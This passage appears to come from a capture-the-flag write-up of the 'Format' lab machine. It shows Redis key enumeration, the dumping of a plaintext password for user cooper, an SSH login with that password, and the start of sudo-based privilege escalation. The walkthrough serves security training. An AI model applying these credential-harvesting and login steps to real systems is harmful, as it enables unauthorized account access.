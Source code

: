 ```
```
When enumerating redis keys, we see a couple entries for cooper, a user on the system. Note if we reached this place faster, we could also see an entry for our `asdf` user. However, account entries are reset quickly for a cleaner box experience.
```
redis /var/run/redis/redis.sock> KEYS '*'
1) "cooper.dooper:sites"
2) "cooper.dooper"
```
After reviewing [This stack overflow post](https://stackoverflow.com/questions/8078018/get-redis-keys-and-values-at-command-prompt), I find that i can retrieve key contents by matching the type. Finding type:
```
redis /var/run/redis/redis.sock> type "cooper.dooper:sites"
list
redis /var/run/redis/redis.sock> type "cooper.dooper"
hash
```
Hash is more interesting, as it is likely related to passwords. Each type requires a different command to print:
```
redis /var/run/redis/redis.sock> hgetall "cooper.dooper"
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
```
The hash is indeed the interesting entry, and more surprisingly the password is not hashed at all! We can try to use this to authenticate as `cooper` using ssh:
```
┌──(kali㉿kali)-[~/Documents/Format]
└─$ ssh cooper@microblog.htb
cooper@microblog.htb's password:
<...SNIP...>
cooper@format:~$
```
## Privilege Escalation
### Abusing Python String format()
Checking sudo privileges:
```
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```
This binary is custom built for this box:
```
cooper@format:~$ /usr/bin/license

Microblog license key manager can only be run as root
```
Upon further inspection, it is not a binary, but instead a python script. This means we can read the contents.
```
```